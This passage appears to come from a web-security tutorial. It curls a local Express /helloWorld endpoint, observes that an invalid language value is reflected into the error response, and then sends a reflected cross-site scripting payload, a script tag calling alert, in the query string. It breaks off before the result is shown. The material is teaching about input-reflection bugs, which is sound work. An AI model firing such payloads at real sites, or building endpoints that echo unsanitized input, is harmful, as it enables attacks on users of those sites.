

In both cases, the result will be something like the following response that shows a greeting in English:
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 11
Date: Sun, 25th Nov 2024 23:56:45 IST
Connection: keep-alive

Hello World

Now let’s try hitting the /helloWorld endpoint by passing an invalid language:

curl –v “http://localhost:9002/helloWorld?access_token=Token&language=fi”

The response is something like the following, which shows an error message because Finnish isn’t one of the supported languages:
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 27
Date: Mon, 25 Nov 2024 12:04:33 IST
Connection: keep-alive

Error, invalid language: fi

So far, so good. But as any bug hunter will notice, it seems that the error response of /helloWorld endpoint is designed in a way that the erroneous input bounces back into the response. Let’s try to push this further and pass a nasty payload.
curl –v “http://localhost:9002/helloWorld?access_token=TOKEN&language=<script>alert(‘XSS’) < /script>”

Which will yield: